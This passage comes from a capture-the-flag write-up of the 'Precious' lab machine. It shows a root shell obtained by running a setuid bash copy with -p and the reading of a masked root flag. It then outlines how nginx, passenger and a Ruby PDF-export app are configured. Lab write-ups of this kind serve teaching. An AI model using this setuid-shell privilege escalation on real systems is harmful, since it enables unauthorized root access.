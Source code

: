 Running with `-p` gives a shell with effective UID and GID as root:

```

henry@precious:/dev/shm$ /tmp/0xdf -p
0xdf-5.1# id
uid=1000(henry) gid=1000(henry) euid=0(root) egid=0(root) groups=0(root),1000(henry)

```

And I can claim `root.txt`:

```

0xdf-5.1# cat root.txt
0bc3cc28************************

```

## Beyond Root - Precious Web Server

### Goals

I was able to figure out that it’s a Ruby webserver behind nginx during enumeration. In exploring, I’ll want to figure out some foundational stuff about the webserver:
- How nginx is hosting the app and how it’s redirecting to `precious.htb`;
- How the Ruby web app runs;
- What the Ruby web app does;
- Why it fails to get the local web page and export it.

### Exploration

I’ll go through these in [this video](https://www.youtube.com/watch?v=Pmdx0e6aRxU):

The short summary is that nginx is using a module named passenger. This allows nginx to handle the Ruby application. I’ll show how nginx is doing that, as well as the docs that show how that application is configured.

I’ll look at the Ruby app to see how it generates PDF and handles GET and POST requests.

I’ll also see that local hosts are not blocked, but find a DNS issue, and fix it with the `hosts` file such that I can export the main page to PDF.